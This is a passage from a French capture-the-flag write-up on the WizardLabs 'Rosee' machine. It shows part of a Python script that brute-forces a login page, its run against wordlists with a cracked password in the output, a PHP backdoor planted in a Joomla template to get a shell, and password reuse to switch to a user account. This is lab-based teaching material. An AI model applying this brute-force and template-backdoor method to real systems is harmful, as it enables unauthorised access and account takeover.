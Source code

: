 ```python
                    headers={"Referer": "http://10.1.1.23:10000/blog/index.php/author-login"}
                )

                if "Username and password do not match" not in response.text:
                    print("Got no error and status code {} with {} / {}".format(response.status_code, username, password))
                    sess = requests.session()
```

On met ensuite des versions possibles du nom d'utilisateur dans un fichier et le pass dans un autre :  

```plain
$ python3 brute.py /tmp/users.txt /tmp/passwords.txt
Testing password cabergas08
Got no error and status code 200 with cebu / cabergas08
```

L'étape suivante est de modifier un script PHP du template Joomla via *control panel > templates > templates > protostar* (ce dernier étant le nom du template utilisé).  

![WizardLabs CTF Rosee joomla template injection PHP backdoor](https://github.com/devl00p/blog/raw/master/images/wizard-labs/rosee_joomla_template_edit.png)

On obtient facilement un shell en tant que *www-data* et via la réutilisation du mot de passe l'accès au compte *cebu* (et le premier flag).  

```plain
www-data@rosee:/var$ su cebu
Password:
cebu@rosee:/var$ id
uid=1000(cebu) gid=1000(cebu) groups=1000(cebu),4(adm),24(cdrom),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
